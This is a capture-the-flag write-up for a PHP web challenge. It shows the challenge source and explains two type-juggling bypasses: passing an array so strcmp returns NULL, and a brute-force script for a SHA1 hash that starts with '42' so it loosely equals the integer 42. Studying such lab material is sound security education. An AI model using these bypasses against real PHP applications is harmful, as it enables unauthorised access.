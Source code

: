 ```yaml
---
title: clowns-as-a-service
date: 2023-12-05
tags:
- web
- type juggling
- php
categories: BlahajCTF 2023
---
```


> PHP has some inner clown magic like juggling. Can you juggle your way to get the flag?

We are given some source code:
```php
<?php

$secret = 'REDACTED';
$flag = 'blahaj{REDACTED}';

$inputsecret = $_POST['secret'];
$meaningoflife = $_POST['meaningoflife'];

# Check if the secret is correct
if (strcmp($inputsecret, $secret) != 0) {
    echo 'come back with correct secret';
}
else{
    # Check if the meaning of life is correct
    if (hash('sha1',$meaningoflife) != 42) {
        echo 'come back with correct meaning of life';
    }
    else{
        echo 'flag: ' . $flag;
    }
}

?>
```

We have to comparisons to break, the first one is a `strcmp()` between our input secret and the actual secret, and the second one is to bypass the hash function.

## Bypassing the first check

To bypass the first strcmp, we just need to submit an array into `$secret`, and the first check will be bypassed. This is because:
1. if you `strcmp()` an array and a string, it will result in `NULL`
2. `NULL` == 0 is true

So when I submit it, I get:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
come back with correct meaning of life
```

confirming that we have bypassed the first check.

## Bypassing the second check

From [this pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) which is the first result I got when I googled "php type juggling", in Bug #2 (Page 18-22), if a hash is compared to an integer, then as long as we have the integer followed by a non-numeric character in the hash, it will pass through.

{% ccb
html:true %}
<span class="string">"<span class="number">7</span>a5c2...72c933"</span> == int(<span class="number">7</span>)
<span class="string">"<span class="number">42</span>f66...8229bb"</span> == int(<span class="number">42</span>)
<span class="string">"<span class="number">092</span>d1...c410a9"</span> == int(<span class="number">92</span>)
{% endccb %}

I.e., we need to find a sha1 hash that starts with 42, and whose third digit is not a digit (i.e. can only be a, b, c, d, e, f). We can make a python script that generates various hashes like that:

```py
import hashlib

chars = '0123456789abcdefghijklmnopqrstuvwxyz'
chars = [bytes(c, 'utf-8') for c in chars ]
for i in chars:
    for j in chars:
        for k in chars:
            for l in chars:
                for m in chars:
                    hash = hashlib.sha1(i+j+k+l+m).hexdigest()
                    if hash[:2].isnumeric() and int(hash[:2]) == 42 and not hash[2].isnumeric():
                        print(i+j+k+l+m)
                        print(hash)
```

As it turns out this generates *a lot* of "valid" hashes so I took one (`0sob7` gives `42a5b...1aa52a`), and submitted it as the `meaningoflife`.

I received:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
flag: blahaj{php_is_the_biggest_clown_of_all_the_clowns}
```